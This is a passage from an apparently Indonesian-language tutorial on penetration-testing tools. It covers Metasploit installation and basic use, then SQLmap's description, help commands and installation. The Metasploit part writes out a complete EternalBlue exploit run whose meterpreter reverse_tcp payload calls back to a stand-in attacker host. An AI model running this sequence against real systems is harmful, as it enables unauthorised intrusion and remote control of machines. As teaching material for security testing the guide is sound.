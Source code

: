 #### Instalasi
```bash
sudo apt install metasploit-framework
```

#### Penggunaan Dasar
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set options
set RHOSTS target
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip

# Run exploit
exploit
```

### SQLmap
#### Deskripsi
Tool automated untuk detecting dan exploiting SQL injection vulnerabilities.

#### Bantuan dan Dokumentasi
```bash
# Basic help
sqlmap -h

# Advanced help
sqlmap -hh

# Show version
sqlmap --version

# List tampers
sqlmap --list-tampers

# Online docs
xdg-open https://github.com/sqlmapproject/sqlmap/wiki

# Local examples
ls /usr/share/doc/sqlmap/examples/
```

#### Instalasi
```bash
sudo apt install sqlmap
```
